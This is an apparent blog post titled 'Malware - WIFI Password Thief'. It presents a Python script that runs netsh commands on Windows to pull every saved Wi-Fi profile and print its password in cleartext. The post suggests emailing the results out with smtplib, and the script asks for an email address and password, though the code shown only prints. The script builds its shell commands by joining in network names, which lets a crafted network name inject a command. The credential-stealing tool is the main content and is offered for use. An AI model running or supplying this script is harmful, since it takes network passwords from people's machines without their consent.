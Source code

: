 ```yaml
---
title: Malware - WIFI Password Thief
date: 2021-08-19 09:45:47 +07:00
categories: python_101
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: This script steals all relevant WIFI passwords from a given Windows system.
---
```


<p align="center">
 <img src="https://c.tenor.com/jL1f0JCmZEkAAAAM/ill-be-taking-that-spongebob.gif">
</p>


## This script steals all relevant WIFI passwords from a given Windows system.

- This can be coupled with the smtplib to send a report via email too.
- We use various netsh commands to view the WIFI details,passwords.
  > `netsh wlan show profile` - view ssid , common details.

  > `netsh wlan show profile "network_name" key=clear` - view password along with more info.
- We use regex to capture the relevant fields by seperating them into groups.



### Code: 

```python
#!/usr/bin/env python

import subprocess, re, argparse


def get_arguments():
    parser = argparse.ArgumentParser()
    parser.add_argument("-e", "--email", dest="email", help="Email-ID to recieve report")
    parser.add_argument("-p", "--password", dest="password", help="Password for provided Email-ID")
    options = parser.parse_args()
    if not options.email:
        # code to handle error
        parser.error("\n[-] Please specify a valid Email-ID,  use --help for info.")
    if not options.password:
        # code to handle error
        parser.error("\n[-] Please specify a valid Password,  use --help for info.")
    return options



print("""
                                                ＷＩＦＩ Ｐａｓｓｗｏｒｄ－Ｔｈｉｅｆ
      """)

options = get_arguments()


command = 'netsh wlan show profile'
networks = subprocess.check_output(command, shell=True).decode()
# Seperate regex into capturing groups
# \s - spaces; * - any no of; . - any type of char
# Set "Profile" as non capturing group using '?:'
# Use re.findall() to find all instances as lists that match instead of re.search()
network_names_list = re.findall("(?:Profile\s*:\s)(.*)", networks)
print("[!] Finding Network Names..")

result = ""
pass_result = ""
for network_name in network_names_list:
    command = "netsh wlan show profile " + network_name + " key=clear"
    current_result = subprocess.check_output(command, shell=True).decode()
    result += current_result
print("[!] Finding Network Passwords..")

banner = "\n\nWIFI SSID And PassList:\n"
loop_result = ""
counter = 0
passlist = re.findall("(?:Key Content\s*:\s)(.*)", result)
network_name = re.findall("(?:SSID name\s*:\s\")(.*)(?:\")", result)
try:
    print(banner)
    while True:
        net_name = network_name[counter] + ": "
        pass_name = passlist[counter]
        loop_result = net_name + pass_name
        counter += 1
        print(loop_result)    
except IndexError:
        exit()
```

### Output:

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/Malware-Wifi_pass_stealer/wifi.png)